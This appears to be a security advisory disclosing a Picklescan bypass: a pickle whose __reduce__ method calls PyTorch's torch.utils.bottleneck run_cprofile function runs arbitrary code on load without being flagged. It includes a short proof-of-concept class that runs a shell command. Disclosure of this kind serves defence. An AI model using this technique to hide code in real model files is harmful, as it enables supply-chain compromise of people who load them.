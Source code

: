 ### Summary

Using torch.utils.bottleneck.__main__.run_cprofile
 function, which is a pytorch library function to execute remote pickle file.

### Details

The attack payload executes in the following steps:

First, the attacker craft the payload by calling to torch.utils.bottleneck.__main__.run_cprofile
 function in reduce method
Then when the victim after checking whether the pickle file is safe by using Picklescan library and this library doesn't dectect any dangerous functions, decide to pickle.load() this malicious pickle file, thus lead to remote code execution.

### PoC

```
import torch.utils.bottleneck.__main__ as bottleneck_main

class EvilTorchUtilsBottleneckRunCprofile:
    def __reduce__(self):
        code = '__import__("os").system("whoami")'
        globs = {}
        return bottleneck_main.run_cprofile, (code, globs)
```

### Impact

Who is impacted? Any organization or individual relying on picklescan to detect malicious pickle files inside PyTorch models.
What is the impact? Attackers can embed malicious code in pickle file that remains undetected but executes when the pickle file is loaded.
Supply Chain Attack: Attackers can distribute infected pickle files across ML models, APIs, or saved Python objects.

### Corresponding

https://github.com/FredericDT
https://github.com/Qhaoduoyu
